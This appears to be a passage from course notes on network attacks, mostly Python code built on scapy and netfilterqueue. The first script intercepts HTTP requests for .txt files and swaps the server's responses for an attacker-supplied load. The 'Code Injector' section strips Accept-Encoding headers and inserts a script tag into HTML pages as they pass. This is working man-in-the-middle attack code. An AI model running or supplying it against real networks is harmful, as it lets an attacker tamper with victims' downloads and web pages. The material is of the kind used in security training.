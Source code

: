 ```python
        #print(scapy_packet.show())
        if scapy_packet[scapy.TCP].dport == 80:
            print(f'HTTP Request')
            if '.txt'.encode() in scapy_packet[scapy.Raw].load:
                print(f'[+] txt Request')
                ack_list.append(scapy_packet[scapy.TCP].ack)
                print(scapy_packet.show())
        elif scapy_packet[scapy.TCP].sport == 80:
            print(f'HTTP Response')
            if scapy_packet[scapy.TCP].seq in ack_list:
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                modified_scapy_packet = set_load(scapy_packet, attack_load)

                packet.set_payload(bytes(modified_scapy_packet))
                #print(scapy_packet.show())


    packet.accept()

queue = nq.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```

# Section 9: Writing a Code Injector
In http requests, removing the ***Accept-Encoding: gzip, ...*** from the load in the raw layer will allow the browzer present html in plain text.


### Code for injection
```python
#!/usr/bin/env python3 

import netfilterqueue as nq
import scapy.all as scapy
import re

def set_load(scapy_packet, load):
    print(f'[+] replacing file')
    scapy_packet[scapy.Raw].load = load
    del scapy_packet[scapy.IP].len
    del scapy_packet[scapy.IP].chksum
    del scapy_packet[scapy.TCP].chksum

    return scapy_packet
    

def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    #print(type(scapy_packet))
    if scapy_packet.haslayer(scapy.Raw):
        load = scapy_packet[scapy.Raw].load
        #print(scapy_packet.show())
        if scapy_packet[scapy.TCP].dport == 80:
            print(f'HTTP Request')
            load=re.sub("Accept-Encoding:.*?\r\n".encode(), "".encode(), load)
            #print(scapy_packet.show())
        elif scapy_packet[scapy.TCP].sport == 80:
            print(f'HTTP Response')
            injection_code = "<script>alert('Test');</script>"
            load = load.replace("</body>".encode(), (injection_code+"</body>").encode())

```